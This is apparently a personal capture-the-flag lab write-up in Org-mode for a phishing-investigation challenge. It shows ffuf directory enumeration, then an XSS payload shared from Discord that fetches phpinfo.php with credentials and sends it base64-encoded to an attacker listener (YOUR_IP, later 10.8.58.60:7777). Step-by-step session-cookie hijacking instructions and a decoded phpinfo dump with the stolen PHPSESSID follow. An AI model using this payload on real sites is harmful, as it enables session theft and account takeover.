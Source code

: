 #+title: Carp
#+author: gabriel

* intro
An exciting mission awaits you!

We have received a security notification from one of the companies we provide services for that there has been a phishing attack against the company. We only have the phishing email sent by the attackers. We need to identify who the attackers are and which employees' information was stolen.

We are looking for your help in conducting this investigation. We trust you to complete the task in the best way possible!

Good luck!

---

Email content:

Hello,

We would like to share an important matter regarding your account. The IT department at our company has detected abnormal activity on your account. In order to ensure the security of your account, please complete the verification process by logging into your account via the link below: <TARGET_LINK>

You have 24 hours for this verification process. If you do not complete the verification process within the specified period, your account will be temporarily frozen.

If you have any questions or concerns, you can contact our IT support team.

Best regards,

IT Unit

* initial scan
#+begin_src sh
[0:15][]~ ✮ ffuf -u "http://officemailcentral.hv/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/
Web-Content/raft-large-directories.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://officemailcentral.hv/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-direct
ories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 217ms]
database                [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 216ms]
webadmin                [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 217ms]
server-status           [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 224ms]
#+end_src

: /database/connect.php


* tips from samurai discord
#+begin_src sh
Encaminhada
You need to create a payload that uses fetch to steal cookies by deleting the email type value on the target machine. You need to base64 decode the incoming cookie and add it to the login page
You can try the following payload:
<script>fetch("http://officemailcentral.hv/phpinfo.php",{credentials:"include"}).then(r=>r.text()).then(d=>fetch("http://YOUR_IP/?data="+btoa(d)));</script>
Encaminhada
Let me walk you through the steps in a clearer way:
1-When you open the website, you’ll first see the email and password validation.
2-Open the developer tools, locate the email input, and remove the type="email" attribute (or simply change it to text).
3-Inject a fetch payload that will capture the session cookie.
4-On your machine, start a simple Python listener on a chosen port.
5-Once the payload runs, you’ll receive data that looks like Base64. Decode it to reveal the session cookie.
6-Use the “EditThisCookie” browser extension to import that cookie into the login page.
7-Finally, refresh the page, you should now be inside the admin panel.
#+end_src

*With this payload I am receiving the data via LOG from the platform's VPN, it is not reaching my Python server directly.* ->
: <script>fetch("http://officemailcentral.hv/phpinfo.php",{credentials:"include"}).then(r=>r.text()).then(d=>fetch("http://10.8.58.60:7777/?data="+btoa(d)));</script>

*long base64 string decoded* ->
#+begin_src sh
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
pre {margin: 0; font-family: monospace;}
a:link {color: #009; text-decoration: none; background-color: #fff;}
a:hover {text-decoration: underline;}
table {border-collapse: collapse; border: 0; width: 934px; box-shadow: 1px 2px 3px rgba(0, 0, 0, 0.2);}
.center {text-align: center;}
.center table {margin: 1em auto; text-align: left;}
.center th {text-align: center !important;}
td, th {border: 1px solid #666; font-size: 75%; vertical-align: baseline; padding: 4px 5px;}
th {position: sticky; top: 0; background: inherit;}
h1 {font-size: 150%;}
h2 {font-size: 125%;}
h2 a:link, h2 a:visited{color: inherit; background: inherit;}
.p {text-align: left;}
.e {background-color: #ccf; width: 300px; font-weight: bold;}
.h {background-color: #99c; font-weight: bold;}
.v {background-color: #ddd; max-width: 300px; overflow-x: auto; word-wrap: break-word;}
.v i {color: #999;}
img {float: right; border: 0;}
hr {width: 934px; background-color: #ccc; border: 0; height: 1px;}
:root {--php-dark-grey: #333; --php-dark-blue: #4F5B93; --php-medium-blue: #8892BF; --php-light-blue: #E2E4EF; --php-accent-purple: #793862}@media (prefers-color-scheme: dark) {
  body {background: var(--php-dark-grey); color: var(--php-light-blue)}
  .h td, td.e, th {border-color: #606A90}
  td {border-color: #505153}
  .e {background-color: #404A77}
  .h {background-color: var(--php-dark-blue)}
  .v {background-color: var(--php-dark-grey)}
  hr {background-color: #505153}
}
</style>
<title>PHP 8.2.7 - phpinfo()</title><meta name="ROBOTS" content="NOINDEX,NOFOLLOW,NOARCHIVE" /></head>
<body><div class="center">
<h2>PHP Variables</h2>
<table>
<tr class="h"><th>Variable</th><th>Value</th></tr>
<tr><td class="e">$_COOKIE['PHPSESSID']</td><td class="v">c15qvl53vgb3srkv1pem7q6kl7</td></tr>
<tr><td class="e">$_SERVER['HTTP_HOST']</td><td class="v">officemailcentral.hv</td></tr>
<tr><td class="e">$_SERVER['HTTP_CONNECTION']</td><td class="v">keep-alive</td></tr>
<tr><td class="e">$_SERVER['HTTP_USER_AGENT']</td><td class="v">Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/100.0.4896.75 Safari/537.36</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT']</td><td class="v">*/*</td></tr>
<tr><td class="e">$_SERVER['HTTP_REFERER']</td><td class="v">http://officemailcentral.hv/webadmin/</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT_ENCODING']</td><td class="v">gzip, deflate</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT_LANGUAGE']</td><td class="v">en-US</td></tr>
<tr><td class="e">$_SERVER['HTTP_COOKIE']</td><td class="v">PHPSESSID=c15qvl53vgb3srkv1pem7q6kl7</td></tr>
<tr><td class="e">$_SERVER['PATH']</td><td class="v">/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin</td></tr>
<tr><td class="e">$_SERVER['SERVER_SIGNATURE']</td><td class="v">&lt;address&gt;Apache/2.4.56 (Debian) Server at officemailcentral.hv Port 80&lt;/address&gt;
</td></tr>
<tr><td class="e">$_SERVER['SERVER_SOFTWARE']</td><td class="v">Apache/2.4.56 (Debian)</td></tr>
<tr><td class="e">$_SERVER['SERVER_NAME']</td><td class="v">officemailcentral.hv</td></tr>
<tr><td class="e">$_SERVER['SERVER_ADDR']</td><td class="v">172.20.45.148</td></tr>
<tr><td class="e">$_SERVER['SERVER_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_SERVER['REMOTE_ADDR']</td><td class="v">172.20.45.148</td></tr>
<tr><td class="e">$_SERVER['DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['REQUEST_SCHEME']</td><td class="v">http</td></tr>
<tr><td class="e">$_SERVER['CONTEXT_PREFIX']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['CONTEXT_DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['SERVER_ADMIN']</td><td class="v">webmaster@localhost</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_FILENAME']</td><td class="v">/var/www/html/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REMOTE_PORT']</td><td class="v">60228</td></tr>
<tr><td class="e">$_SERVER['GATEWAY_INTERFACE']</td><td class="v">CGI/1.1</td></tr>
<tr><td class="e">$_SERVER['SERVER_PROTOCOL']</td><td class="v">HTTP/1.1</td></tr>
<tr><td class="e">$_SERVER['REQUEST_METHOD']</td><td class="v">GET</td></tr>
<tr><td class="e">$_SERVER['QUERY_STRING']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['REQUEST_URI']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_NAME']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['PHP_SELF']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REQUEST_TIME_FLOAT']</td><td class="v">1760121153.357</td></tr>
<tr><td class="e">$_SERVER['REQUEST_TIME']</td><td class="v">1760121153</td></tr>
</table>
<E html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
pre {margin: 0; font-family: monospace;}
a:link {color: #009; text-decoration: none; background-color: #fff;}
a:hover {text-decoration: underline;}
table {border-collapse: collapse; border: 0; width: 934px; box-shadow: 1px 2px 3px rgba(0, 0, 0, 0.2);}
.center {text-align: center;}
.center table {margin: 1em auto; text-align: left;}
.center th {text-align: center !important;}
td, th {border: 1px solid #666; font-size: 75%; vertical-align: baseline; padding: 4px 5px;}
th {position: sticky; top: 0; background: inherit;}
h1 {font-size: 150%;}
h2 {font-size: 125%;}
h2 a:link, h2 a:visited{color: inherit; background: inherit;}
.p {text-align: left;}
.e {background-color: #ccf; width: 300px; font-weight: bold;}
.h {background-color: #99c; font-weight: bold;}
.v {background-color: #ddd; max-width: 300px; overflow-x: auto; word-wrap: break-word;}
.v i {color: #999;}
img {float: right; border: 0;}
hr {width: 934px; background-color: #ccc; border: 0; height: 1px;}
:root {--php-dark-grey: #333; --php-dark-blue: #4F5B93; --php-medium-blue: #8892BF; --php-light-blue: #E2E4EF; --php-accent-purple: #793862}@media (prefers-color-scheme: dark) {
  body {background: var(--php-dark-grey); color: var(--php-light-blue)}
  .h td, td.e, th {border-color: #606A90}
  td {border-color: #505153}
  .e {background-color: #404A77}
  .h {background-color: var(--php-dark-blue)}
  .v {background-color: var(--php-dark-grey)}
  hr {background-color: #505153}
}
</style>
<title>PHP 8.2.7 - phpinfo()</title><meta name="ROBOTS" content="NOINDEX,NOFOLLOW,NOARCHIVE" /></head>
<body><div class="center">
<h2>PHP Variables</h2>
<table>
<tr class="h"><th>Variable</th><th>Value</th></tr>
<tr><td class="e">$_COOKIE['PHPSESSID']</td><td class="v">c15qvl53vgb3srkv1pem7q6kl7</td></tr>
<tr><td class="e">$_SERVER['HTTP_HOST']</td><td class="v">officemailcentral.hv</td></tr>
<tr><td class="e">$_SERVER['HTTP_CONNECTION']</td><td class="v">keep-alive</td></tr>
<tr><td class="e">$_SERVER['HTTP_USER_AGENT']</td><td class="v">Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/100.0.4896.75 Safari/537.36</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT']</td><td class="v">*/*</td></tr>
<tr><td class="e">$_SERVER['HTTP_REFERER']</td><td class="v">http://officemailcentral.hv/webadmin/</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT_ENCODING']</td><td class="v">gzip, deflate</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT_LANGUAGE']</td><td class="v">en-US</td></tr>
<tr><td class="e">$_SERVER['HTTP_COOKIE']</td><td class="v">PHPSESSID=c15qvl53vgb3srkv1pem7q6kl7</td></tr>
<tr><td class="e">$_SERVER['PATH']</td><td class="v">/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin</td></tr>
<tr><td class="e">$_SERVER['SERVER_SIGNATURE']</td><td class="v">&lt;address&gt;Apache/2.4.56 (Debian) Server at officemailcentral.hv Port 80&lt;/address&gt;
</td></tr>
<tr><td class="e">$_SERVER['SERVER_SOFTWARE']</td><td class="v">Apache/2.4.56 (Debian)</td></tr>
<tr><td class="e">$_SERVER['SERVER_NAME']</td><td class="v">officemailcentral.hv</td></tr>
<tr><td class="e">$_SERVER['SERVER_ADDR']</td><td class="v">172.20.45.148</td></tr>
<tr><td class="e">$_SERVER['SERVER_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_SERVER['REMOTE_ADDR']</td><td class="v">172.20.45.148</td></tr>
<tr><td class="e">$_SERVER['DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['REQUEST_SCHEME']</td><td class="v">http</td></tr>
<tr><td class="e">$_SERVER['CONTEXT_PREFIX']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['CONTEXT_DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['SERVER_ADMIN']</td><td class="v">webmaster@localhost</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_FILENAME']</td><td class="v">/var/www/html/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REMOTE_PORT']</td><td class="v">52322</td></tr>
<tr><td class="e">$_SERVER['GATEWAY_INTERFACE']</td><td class="v">CGI/1.1</td></tr>
<tr><td class="e">$_SERVER['SERVER_PROTOCOL']</td><td class="v">HTTP/1.1</td></tr>
<tr><td class="e">$_SERVER['REQUEST_METHOD']</td><td class="v">GET</td></tr>
<tr><td class="e">$_SERVER['QUERY_STRING']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['REQUEST_URI']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_NAME']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['PHP_SELF']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REQUEST_TIME_FLOAT']</td><td class="v">1760121163.497</td></tr>
<tr><td class="e">$_SERVER['REQUEST_TIME']</td><td class="v">1760121163</td></tr>
</table>
</div></body></html>
#+end_src

*PHPSESSID* ->
: c15qvl53vgb3srkv1pem7q6kl7
